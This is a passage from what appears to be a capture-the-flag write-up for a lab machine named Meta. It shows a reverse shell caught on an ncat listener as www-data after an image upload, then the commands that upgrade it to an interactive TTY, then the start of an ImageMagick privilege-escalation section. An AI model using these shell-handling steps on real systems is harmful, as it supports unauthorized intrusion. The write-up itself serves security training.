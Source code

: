 [![025_upload_image](/img/meta/025_upload_image.png)](/img/meta/025_upload_image.png)

After we click the upload button the page hangs and we get a connection back on our ncat listener as www-data which we upgrade using python and fix the terminal size.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.166.252.
Ncat: Connection from 10.129.166.252:43968.
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm
export TERM=xterm
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
[1]  + 43617 suspended  nc -lnvp 7575
$ stty raw -echo;fg
[1]  + 43617 continued  nc -lnvp 7575

www-data@meta:/var/www/dev01.artcorp.htb/metaview$
```

## ImageMagick

Taking a look around on the system and monitoring for running processes there seems to be a cronjob being run by the user thomas who has the uid of 1000.
